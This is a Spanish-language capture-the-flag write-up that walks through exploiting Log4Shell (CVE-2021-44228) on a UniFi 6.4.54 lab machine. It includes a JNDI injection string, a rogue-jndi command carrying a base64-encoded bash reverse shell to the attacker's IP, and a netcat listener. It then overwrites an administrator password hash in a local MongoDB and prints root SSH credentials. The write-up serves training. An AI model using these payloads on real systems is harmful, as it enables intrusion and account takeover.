



------
- Tags: #vulnerabilidad #database #CustomApplications #MongoDB #Java #Reconnaisance #cleartextcredentials #DefaultCredentials #CodeInjection
--------


## 🔍 Enumeración inicial

Empezamos con un escaneo completo de puertos:

```bash
sudo nmap -sS -sC --top-ports 1000 -Pn 10.129.128.82
```


📘 **Parámetros**:

- `-sS`: SYN scan (rápido y discreto)
    
- `-sC`: Scripts por defecto (equivalente a `--script=default`)
    
- `--top-ports 1000`: Escanea los 1000 puertos más comunes
    
- `-Pn`: Ignora ping (trata el host como "activo")
    

🎯 **Resultado**:

```bash
22/tcp    open  ssh
6789/tcp  open  ibm-db2-admin
8080/tcp  open  http-proxy
8443/tcp  open  https-alt (UniFi Network)
```


## 🌐 Análisis del servicio HTTPS (Puerto 8443)

Realizamos escaneo más detallado sobre el puerto 8443:

```bash
sudo nmap -sS -sC -sV -Pn -p 8443 10.129.128.82
```

📘 **Parámetros nuevos**:

- `-sV`: Detección de versiones del servicio (analiza banners, certificados, headers...)
    

🎯 **¿Por qué usar** `******-sV******`**?**

Este parámetro intenta identificar:

- El nombre del software
    
- Su número de versión
    
- Información del certificado SSL si lo hay (en servicios HTTPS)
    

📄 **Resultado relevante**:

```bash
|_http-title: UniFi Network
| ssl-cert: Subject: commonName=UniFi
```


✅ **Task 2**: ¿Cuál es el **título** del software en el puerto 8443? → `UniFi Network`


## 🧠 Análisis de versión del panel UniFi

✅ **Task 3**: ¿Qué versión del software está corriendo?

### 🌐 Acceso manual vía navegador

Visitamos:

```bash
https://10.129.128.82:8443/manage
```

(aceptaremos los riesgos)

🔒 Se trata del panel de acceso de la plataforma **UniFi Network Controller**. En pantalla se muestra claramente la versión: `6.4.54`.

> UniFi Network Controller es una plataforma de administración de redes creada por Ubiquiti Inc. Se accede normalmente por HTTPS en el puerto 8443 y permite gestionar dispositivos de red como switches, access points y routers.


✅ **Respuesta para Task 3**: `6.4.54`


## 🛡️ Task 4: ¿Cuál es el CVE de la vulnerabilidad?

📌 La versión `6.4.54` del panel UniFi Network es vulnerable a una grave vulnerabilidad conocida como **Log4Shell**, debida al uso de la librería **Apache Log4j**.

🔎 Realizando una búsqueda en Google de `CVE UniFi 6.4.54`, encontramos múltiples fuentes (CVE Details, Sprocket Security, Censys, GitHub) que confirman lo siguiente:


> **🛑 CVE-2021-44228** → Vulnerabilidad crítica de ejecución remota (RCE) descubierta en diciembre de 2021. Permite la ejecución de código mediante la explotación del sistema de logs (Log4j) a través de inyecciones JNDI.

💥 **Impacto**: Permite ejecutar código remoto en el servidor a través de solicitudes manipuladas (como cabeceras HTTP).

✅ **Respuesta correcta**: `CVE-2021-44228`


### 🧨 Exploiting CVE-2021-44228 (Log4Shell) en UniFi 6.4.54

> A partir del análisis completo de Sprocket Security y del script [puzzlepeaches/Log4jUnifi](https://github.com/puzzlepeaches/Log4jUnifi), este es el proceso técnico real que deberías seguir.

En Google, buscaremos como explotar en profundidad esta vulnerabilidad (CVE-2021-44228)


```bash
[url]https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi
```

## 🌐 Task 5: ¿Qué protocolo usa JNDI para la inyección?

📘 **¿Qué es JNDI?**

JNDI (Java Naming and Directory Interface) es una API de Java que permite a los clientes acceder a servicios de nombres y directorios como LDAP, DNS, RMI, etc.

🧠 En el contexto de Log4Shell, esta API puede ser explotada para cargar objetos maliciosos desde un servidor remoto usando referencias JNDI.

+ Info:

```bash
https://www.incibe.es/incibe-cert/blog/log4shell-analisis-vulnerabilidades-log4j
```


📥 **Ejemplo de inyección Log4Shell**:

```
${jndi:ldap://attacker.com/a}
```

💡 Aquí, `ldap` es el protocolo que se usa para recuperar y ejecutar el payload malicioso.

🚩 Esta es la técnica clave que hace posible la ejecución remota de código.

✅ **Respuesta correcta**: `ldap`


---

## 🔒 Task 6: ¿Qué herramienta se usa para interceptar el tráfico y confirmar que el ataque fue exitoso?

Durante la explotación de Log4Shell, una forma común de **verificar** que la carga fue ejecutada es interceptar el tráfico generado por la inyección hacia nuestro servidor controlado.

🕵️ Una herramienta muy utilizada para capturar peticiones HTTP entrantes es **tcpdump**.

### 📅 Ejemplo de uso:

```bash
sudo tcpdump -i tun0 port 1389
```

O si queremos ver cualquier petición entrante:

```bash
sudo tcpdump -i tun0
```

> ⬆️ En entornos como HTB, si lanzamos el exploit con un servidor LDAP (puerto 1389), `tcpdump` puede mostrar que el objetivo intenta conectarse a nosotros, lo que indica que la vulnerabilidad fue **ejecutada correctamente**.

📝 Alternativas como `wireshark` no siempre están disponibles en terminales remotas, y `tcpdump` ofrece una opción ligera para CLI.

✅ **Respuesta correcta**: `tcpdump`



## 🧩 Task 7: ¿Qué puerto debemos inspeccionar para verificar el tráfico interceptado?

En una explotación de Log4Shell usando JNDI + LDAP, el protocolo LDAP es el vehículo del payload y por tanto el **puerto estándar 389** es el canal clave para detectar actividad maliciosa.

🔎 Durante la escucha con `tcpdump` o cualquier herramienta de análisis de red, debemos centrarnos en el tráfico que llega al puerto `389` de nuestra máquina atacante.

🧠 Esto confirma que el servidor vulnerable intentó conectarse al recurso remoto, es decir, que procesó correctamente la cadena inyectada.

✅ **Respuesta correcta**: `389`


## 🧪 Explotación de Log4Shell en UniFi - Fase inicial  (CVE-2021-44228)

### 📌 Contexto

Tras identificar que el panel de administración UniFi Network corre la versión vulnerable `6.4.54`, se confirma que es afectado por la vulnerabilidad **Log4Shell** (`CVE-2021-44228`). Esta permite la ejecución remota de código (RCE) a través de una inyección JNDI.

## 🧱 Preparación del entorno para explotación

### 🧰 Herramienta: `rogue-jndi`

Se utiliza la herramienta [`rogue-jndi`](https://github.com/veracode-research/rogue-jndi) para simular un servidor LDAP malicioso que entregará el payload al servidor vulnerable.

📦 Clonamos y compilamos:

```bash
git clone https://github.com/veracode-research/rogue-jndi
cd rogue-jndi
mvn package
```


## 🌐 1. Acceso inicial a la aplicación

Entramos al navegador (con FoxyProxy desactivado) y aceptamos el certificado autofirmado. 


Accedemos a la interfaz de UniFi en el puerto `8443`, versión vulnerable `6.4.54`:


Interceptamos con BurpSuite para observar la petición POST al endpoint `/api/login`:


Como bien vemos en la web :

https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi

Antes de seguir con cualquier cosa, tendremos que :


## ⚙️ 3. Montar servidor malicioso con RogueJNDI

**Montamos un servidor LDAP malicioso con RogueJNDI**

```bash
git clone https://github.com/veracode-research/rogue-jndi && cd rogue-jndi
mvn package
```

**Ejecutamos RogueJNDI con el payload base64:**

```bash
sudo java -jar target/RogueJndi-1.1.jar \
--command "bash -c {echo,YmFzaCAtYyBiYXNoIC1pID4mL2Rldi90Y3AvMTAuMTAuMTYuMTAwLzQ0NDQgMD4mMQ==}|{base64,-d}|{bash,-i}" \
--hostname 10.10.16.100
```


Donde el payload decodificado es:

- El payload Base64 representa: `bash -i >& /dev/tcp/(IP-VPN)/4444 0>&1`
    
- Se lanza listener con:

```bash
sudo nc -nlvp 4444
```

## 🔍 2. Detección y explotación de Log4Shell

### 🪓 Punto de inyección

En la petición POST interceptada, se encuentra un campo vulnerable `remember`, donde insertamos el payload:

```bash
"${jndi:ldap://IP:1389/o=tomcat}",
```

### 🚨 Enviamos el payload desde Burp


### 🔁 Se activa la shell inversa

```bash
Connection received on 10.129.201.157 54512
```

## 📁 3. Navegación básica por el sistema

Desde el shell obtenido:

- Navegamos hasta `/home/michael/` y leemos la flag `user.txt`:

```bash
cat /home/michael/user.txt
```


## 🧱 4. Escalada de privilegios vía MongoDB

Desde el shell obtenido:

### 🔎 Enumerar proceso MongoDB:

```bash
ps aux | grep mongo
```

Detectamos servicio corriendo en `--port 27117 --bind_ip 127.0.0.1`


### 📂 Accedemos a MongoDB sin autenticación

```bash
mongo --port 27117 ace
```


### 🔍 Listar admins:

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```


Veremos el id, el nombre , el correo y la x_shadow (hash de la contraseña).

Se identifica el hash SHA-512 del admin actual.


Extraemos `x_shadow`, el hash SHA-512 de la contraseña del administrador.


## 🔐 5. Crear un nuevo administrador (Shadow Admin)

### 🔐 Creamos un nuevo hash con mkpasswd

```bash
mkpasswd -m sha-512 Password123!
```


### 🧬 Modificamos el hash del admin actual en MongoDB

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":ObjectId("")},{$set:{"x_shadow":"HASH-GENERADO"}}'
```




### 🔎 Verificamos que existe:

```bash
mongo --port 27117 ace --eval "db.admin.find().forEach(printjson);"
```


## 🕹️ 6. Acceso al panel UniFi Network

Accedemos desde navegador con el nuevo usuario `unifi-admin` y la contraseña `Password123!` al panel:

```bash
https://10.129.201.157:8443/manage/site/default/dashboard
```



## 🧾 7. Obtener credenciales SSH

Desde el panel vamos a:

`Settings > Site > Device Authentication`

Se muestran:

- Usuario: `root`
    
- Contraseña: `NotACrackablePassword4U!`


Accedemos por SSH:

```bash
ssh root@10.129.201.157
```


## ✅ Conclusiones

- Se explota **Log4Shell** en el servicio UniFi (v6.4.54) mediante JNDI + LDAP.
    
- Se monta servidor malicioso con **rogue-jndi**.
    
- Se obtiene shell inversa y acceso a MongoDB local.
    
- Se inyecta un usuario administrador malicioso.
    
- Se accede al panel UniFi y se obtienen credenciales SSH.
    
- Finalmente, se accede como root al sistema objetivo.
    

### 🔒 Mitigación

- Actualizar a UniFi v6.5.54 o superior.
    
- Añadir autenticación en MongoDB local.
    
- Restringir el acceso al panel de administración (firewall/IP whitelist).